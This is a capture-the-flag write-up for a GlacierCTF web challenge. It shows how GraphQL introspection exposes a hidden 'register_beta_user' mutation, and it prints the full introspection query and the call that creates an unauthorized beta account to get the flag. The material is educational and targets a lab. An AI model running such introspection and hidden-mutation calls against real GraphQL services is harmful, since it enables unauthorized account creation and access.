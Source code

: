 # Challenge

Our new 110% legit cryptocurrency is so cool, it does not even use blockchains. We have a WIP web interface for trading though. Hope nobody can get a beta testing account.

https://flagcoin.ctf.glacierctf.com

# Writeup

There is a graphql query endpoint:

```js
const graphql = async (query, variables) => {
  let res = await fetch("/graphql", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ query, variables })
  });
  return await res.json();
};

const login = async () => {
  let username = $("input[name=user]").value;
  let password = $("input[name=pass]").value;
  let res = await graphql(`
      mutation($username: String!, $password: String!) { 
        login(username: $username, password: $password) { 
          username 
        } 
      }
      `, {
    username,
    password
  });

  if (res.errors) {
    alert('login error ' + res.errors[0].message);
  } else {
    location.href = '/panel';
  }
};
```

We can leverage the GraphQL schema to find all mutations available (learned from https://hwlanxiaojun.github.io/2020/04/14/%E5%BD%93CTF%E9%81%87%E4%B8%8AGraphQL%E7%9A%84%E9%82%A3%E4%BA%9B%E4%BA%8B/):

```graphql
query IntrospectionQuery{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

In the schema, we can see that there is a mutation called `register_beta_user`:

```json
{
    "name": "register_beta_user",
    "description": null,
    "args": [
        {
            "name": "username",
            "description": null,
            "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
            },
            "defaultValue": null
        },
        {
            "name": "password",
            "description": null,
            "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
            },
            "defaultValue": null
        }
    ],
    "type": {
        "kind": "OBJECT",
        "name": "User",
        "ofType": null
    },
    "isDeprecated": false,
    "deprecationReason": null
},
```

We can register a beta user via the mutation:

```js
graphql("mutation($username: String!, $password: String!) {register_beta_user(username: $username, password: $password) { username }}", {username: 'beta1234', password: 'beta1234'}).await
```

We can login to the account and capture the flag `glacierctf{bUy_Th3_d1P_br0h}`.

# Conclusion

GraphQL has its introspection ability, which is useful for development, but can be leveraged by the attacker as well.
